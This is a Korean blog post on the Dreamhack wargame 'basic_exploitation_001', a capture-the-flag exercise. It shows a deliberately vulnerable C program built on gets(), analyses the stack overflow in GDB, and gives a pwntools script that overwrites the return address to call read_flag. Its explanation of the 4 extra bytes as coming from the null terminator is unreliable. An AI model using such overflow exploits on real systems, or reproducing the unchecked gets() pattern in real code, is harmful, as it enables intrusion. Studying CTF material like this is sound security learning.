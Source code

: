```yaml
---
layout: single
permalink: /information/
title:  "Wargame : basic_exploitation_001"
categories: coding
tag: [python, blog, jekyll]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


## C 코드 분석


```c

#include <stdio.h>

#include <stdlib.h>

#include <signal.h>

#include <unistd.h>





void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}





void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);



    signal(SIGALRM, alarm_handler);

    alarm(30);

}





void read_flag() {

    system("cat /flag");

}



int main(int argc, char *argv[]) {



    char buf[0x80];



    initialize();

    

    gets(buf);



    return 0;

}

```


### main() 함수 분석


배열을 크기 0x80(128 byte)만큼 할당한다.



initialize() 함수는 입/출력 버퍼를 비활성화시키고, 프로그램의 실행시간을 30초로 제한하는 함수이다.



gets(buf) 부분에서 익스플로잇이 가능하다.



입력값의 크기를 제한하지 않았기 때문에 해당 부분에 취약점이 있는 것을 알 수 있다.



익스플로잇 방법은 gets()부분 입력값으로 128 byte + 4 byte = 132 byte를 아무 의미없는 문자열 입력 후, read_flag() 함수의 주소를 입력하여 read_flag()가 return 되도록 코드를 작성한다.



추가로 4 byte를 입력해 주는 이유는, gets()함수 특성 상 문자열을 입력받은 후 널 종료 문자로 끝나도록 하기 때문에 1 byte가 추가로 할당된다.



추가로 할당된 1 byte는 스택 메모리에 추가적으로 저장될 때 4 byte(1 word)씩 저장되기 때문에 4 byte를 추가로 할당해야 한다.


## GDB 디버깅


가장 먼저 read_flag의 주소를 살펴본다.



GDB 디버깅을 들어가서 info fuc으로 함수의 주소를 추적한다.



밑에서 보는바와 같이 read_flag의 주소는 '0x080485b9' 이다.


![image.png](/image/fead_flag 함수 주소.png)


다음으로는, 위에서 설명하였던 4 byte가 추가되는 것을 이해하기 쉽도록 디버깅 모드로 들어가서 확인해 본다.


![image.png](/image/4 byte 추가.png)


보다시피, [ebp - 0x80] 에서 할당된 0x80 뿐만 아니라 밑에 add exp, 4 에서 4 byte가 추가로 할당된 것을 볼 수 있다.


## Pwn 코드


```python

from pwn import *



p = remote("host3.dreamhack.games", 11188)



payload = b'A' * 0x80

payload += b'A' * 4

payload += p32(0x080485b9)

# read_flag의 주소를 패킹하여 payload에 더한다.



p.sendline(payload)

p.interactive()

```

![image.png](/image/basic_ex_shellcode.png)
